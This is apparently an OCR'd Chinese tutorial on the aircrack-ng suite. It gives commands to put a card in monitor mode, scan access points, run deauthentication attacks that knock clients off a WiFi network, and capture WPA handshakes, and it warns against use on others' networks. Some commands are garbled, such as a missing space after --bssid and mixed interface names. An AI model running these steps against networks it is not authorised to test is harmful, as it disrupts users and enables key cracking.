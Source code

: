 

Aireplay-ng 用于重放攻击和数据包注入器。它可以取消用户从其 AP 的身份验证以捕获握手。



Airdecap-ng 用于解密已知密钥的加密 WEP、WPA/WPA2 无线数据包。



Aircrack-ng 用于攻击 WPA/WEP 无线协议以找到密钥。



apt-get install -y aircrack-ng

使用“iwconfig”命令列出连接到PC 的所有可用无线卡

找到wifi卡，现在，使用 airmon-ng 杀死在无线网卡上运行的所有进程。

airmon-ng check kill

airmon-ng start wlan0在“wlan0”上启动监控模式。

airmon-ng 已经在无线网卡上启动了监控模式，它将显示为不同的名称“wlan0mon”。再次运行“iwconfig”以列出无线详细信息。



然后，使用 airodump-ng 查看附近的无线接入点及其属性。

airodump-ng wlan0mon



对这个隐藏WIFI发起攻击（我自己做测试专门用的路由器）

airodump-ng -c 10 --bssid50:FA:84:17:06:CC wlan0

重新打开一个窗口，使用以下命令： aireplay-ng -0 0 -a 50:FA:84:17:06:CC wlan0

**特别注意：这条命令将会使WIFI上的所有设备掉线，如果不是你自己的WIFI，请勿对他人使用** 

aireplay-ng --deauth 1 -a F4:EC:38:0D:6A:B8 -c 18:59:36:1B:C5:03 wlan0mon

- 采用deauth攻击模式，后面跟上攻击次数，这里设置为1，可以根据实际情况设置
- a 后跟AP的MAC地址
- c 后跟客户端的MAC地址，也就是要踢掉的已经连上的客户端的MAC地址



aireplay-ng -0 2 -a **AP'****s bssid** -c ***\*phone\*******\*'s mac\**** mon0 

　　　　　　　　　|　|　　　　|　　　　　　|___连上这个wifi的手机的mac

　　　　　　　　　|　|　　　　|______________wifi的 BSSID

　　　　　　　　　|　|______________________攻击次数

　　　　　　　　　|_________________________攻击方法



**抓取握手包** 

airodump-ng -c 10 --bssid 94:63:72:9F:C6:C7 -w vivo wlan0mon
